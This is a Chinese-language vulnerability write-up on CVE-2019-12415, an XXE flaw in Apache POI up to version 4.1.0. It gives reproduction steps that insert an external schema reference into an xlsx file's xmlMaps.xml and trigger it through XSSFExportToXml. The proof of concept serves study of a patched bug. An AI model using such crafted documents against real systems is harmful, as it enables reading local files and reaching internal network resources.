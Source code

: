 （CVE-2019-12415）Apache POI \<= 4.1.0 XXE漏洞
==============================================

一、漏洞简介
------------

### 什么是POI

Apache
POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft
Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache
POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft
Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1
XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml\#isValid 方法里，如果
XSSFExportToXml\#exportToXML方法的第三个参数为true逐步进入
isValid触发XXE。

![](resource/(CVE-2019-12415)ApachePOI=4.1.0XXE漏洞/media/rId24.png)

二、漏洞影响
------------

Apache POI\<=4.1.0

三、复现过程
------------

    XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
    for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true}

然后下载这个xlsx文件。

    https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx

把文件替换为" CustomXMLMappings.zip"并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在 [xsd:schema](xsd:schema) 标签里面加上一行代码。

    <xsd:redefine schemaLocation="http://127.0.0.1:8080/"/>

![](resource/(CVE-2019-12415)ApachePOI=4.1.0XXE漏洞/media/rId28.png)

然后把xlsx释放出来的所有文件再用zip打包回去，改成
CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。![](resource/(CVE-2019-12415)ApachePOI=4.1.0XXE漏洞/media/rId29.png)
